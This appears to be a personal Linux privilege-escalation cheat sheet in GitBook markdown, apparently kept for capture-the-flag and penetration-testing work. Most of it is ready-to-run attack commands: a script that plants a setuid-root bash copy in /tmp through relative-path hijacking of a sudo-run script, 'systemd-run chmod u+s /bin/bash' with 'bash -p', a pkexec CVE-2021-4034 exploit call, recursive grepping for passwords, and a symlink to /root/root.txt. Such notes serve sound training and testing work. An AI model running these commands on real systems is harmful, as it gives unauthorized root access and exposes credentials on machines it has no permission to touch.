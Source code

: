 ```yaml
---
icon: linux
---
```


# Linux Privilege Scalation

* ## <mark style="color:purple;">Get your own local version of this checklist</mark> [<mark style="color:purple;">here</mark>](https://raw.githubusercontent.com/HackTricks-wiki/hacktricks/refs/heads/master/linux-hardening/linux-privilege-escalation-checklist.md)<mark style="color:purple;">:</mark>

{% embed url="https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist" %}
By Carlos Palop
{% endembed %}

***

{% hint style="info" %}
## <mark style="color:orange;">`sudo`</mark> <mark style="color:purple;">Permissions Chaining</mark>

{% code title="Lists allowed commands" %}
```bash
sudo -l
```
{% endcode %}

***

## <mark style="color:purple;">Relative Path Hijacking</mark>

* <mark style="color:purple;">Sometimes is possible to run scripts as</mark> <mark style="color:orange;">**`sudo`**</mark> <mark style="color:purple;">that call others scripts within the script.</mark>
* <mark style="color:purple;">When this scripts are called by a relative path is possible to create a malicious script on a directory with write permissions.</mark>
* <mark style="color:purple;">This commands creates a script called</mark> <mark style="color:orange;">**`initdb.sh`**</mark> <mark style="color:purple;">that well called will copy</mark> <mark style="color:orange;">**`bash`**</mark> <mark style="color:purple;">to a file called</mark> <mark style="color:purple;"></mark>_<mark style="color:purple;">**shellie**</mark>_ <mark style="color:purple;"></mark><mark style="color:purple;">in the</mark> <mark style="color:orange;">**`/tmp`**</mark> <mark style="color:purple;">folder:</mark>

```bash
echo -e '#!/bin/bash\n\ncp /bin/bash /tmp/shellie\nchown root:root /tmp/shellie\nchmod 6777 /tmp/shellie' | tee initdb.sh
```

* <mark style="color:purple;">Once the  malicious script is executed by the vulnerable script, you just need to execute the shell from the</mark> <mark style="color:orange;">**`/tmp`**</mark> <mark style="color:purple;">folder to become</mark> <mark style="color:orange;">**`root`**</mark><mark style="color:purple;">:</mark>

```bash
/tmp/shellie -p 
```
{% endhint %}

























Netstat

```bash
#Option 1
netstat -l

#Ports
netstat -nltp

#More
netstat -rn
```

Look for files

```bash
#SUID
find / -perm -4000 -type f 2>/dev/null
find / -perm -4000 -or -perm -2000 2>/dev/null
#Binaries con capabilities
getcap -r / 2>/dev/null

#Extra info about bin process 
**getfacl** 

#Passwords
grep -iR "pass" *
grep password .*.* -r
#File
grep -ir cri-o . 2>/dev/null

#Look for a specific file
find / -name lcars 2>/dev/null
find / -name root.txt 2>/dev/null

#Inside a file
cat /etc/zabbix/zabbix_server.conf | grep -Ev "^#" | grep .

#Check libraries
ltrace

#Looking for 32 characters file
#hex
grep -aPo '[a-fA-F0-9]{32}' /dev/sdb
#string 32 chars
strings /dev/sdb -n 32
```

User Privileges

```bash
Check user root privileges —> sudo -l
```

Port Forwarding

```bash
ssh -L {TARGETPORT}:127.0.01:8000 [sau@](<mailto:sau@10.10.11.214>){TARGETIP}
```

Symbolic Link

```bash
ln -s /root/root.txt t.trace.db
```

Common Vectors

```bash
#systemd-run + bash -p
systemd-run chmod u+s /bin/bash
bash -p

#pkexec
python3 CVE-2021-4034.py
```

Flash drives

```bash
#Enumerate mounted disks
mount
#more
lsblk
```

SUDO

```bash
#Interective shell
sudo -i
#su vuln
sudo su -
```

